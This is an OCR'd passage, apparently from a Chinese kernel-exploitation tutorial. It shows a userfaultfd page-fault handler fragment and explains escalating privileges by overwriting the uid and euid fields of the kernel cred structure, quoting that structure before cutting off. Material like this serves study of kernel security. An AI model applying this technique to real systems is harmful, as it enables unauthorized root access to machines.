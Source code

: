     				....
                   /* We expect only one kind of event; verify that assumption. */
                   if (msg.event != UFFD_EVENT_PAGEFAULT) {
                       fprintf(stderr, "Unexpected event on userfaultfd\n");
                       exit(EXIT_FAILURE);
                   }
    
                   /* Copy the page pointed to by 'page' into the faulting
                      region. Vary the contents that are copied in, so that it
                      is more obvious that each fault is handled separately. */
    			  // UFFDIO_COPY处理PAGE FAULT
                   uffdio_copy.src = (unsigned long) page;
    
                   /* We need to handle page faults in units of pages(!).
                      So, round faulting address down to page boundary. */
    
                   uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                                      ~(page_size - 1);
                   uffdio_copy.len = page_size;
                   uffdio_copy.mode = 0;
                   uffdio_copy.copy = 0;
                   if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
                       errExit("ioctl-UFFDIO_COPY");
               }
           }
    
    /* Create a thread that will process the userfaultfd events. */
    s = pthread_create(&thr, NULL, fault_handler_thread, (void *) uffd);
    if (s != 0) {
        errno = s;
        errExit("pthread_create");
    }
    ```

  * 利用userfaultfd机制修改cred

    提权的本质就是修改进程`cred`结构下`uid`和`euid`值为0即可得到root权限。

    而如前所述，我们已经有了`任意地址读写`的条件，所以最便捷的方式就是找到`cred`结构体在内核中的位置，并修改其下的`euid`和`uid`为0。

    cred结构体：

    ```c
    struct cred {
        atomic_t    usage;
    #ifdef CONFIG_DEBUG_CREDENTIALS
        atomic_t    subscribers;    /* number of processes subscribed */
        void        *put_addr;
        unsigned    magic;
    #define CRED_MAGIC    0x43736564
    #define CRED_MAGIC_DEAD    0x44656144
    #endif
        kuid_t        uid;        /* real UID of the task */
        kgid_t        gid;        /* real GID of the task */
        kuid_t        suid;        /* saved UID of the task */
        kgid_t        sgid;        /* saved GID of the task */
        kuid_t        euid;        /* effective UID of the task */
        kgid_t        egid;        /* effective GID of the task */
        kuid_t        fsuid;        /* UID for VFS ops */
        kgid_t        fsgid;        /* GID for VFS ops */
        unsigned    securebits;    /* SUID-less security management */
        kernel_cap_t    cap_inheritable; /* caps our children can inherit */
        kernel_cap_t    cap_permitted;    /* caps we're permitted */
        kernel_cap_t    cap_effective;    /* caps we can actually use */
        kernel_cap_t    cap_bset;    /* capability bounding set */
        kernel_cap_t    cap_ambient;    /* Ambient capability set */
    #ifdef CONFIG_KEYS
        unsigned char    jit_keyring;    /* default keyring to attach requested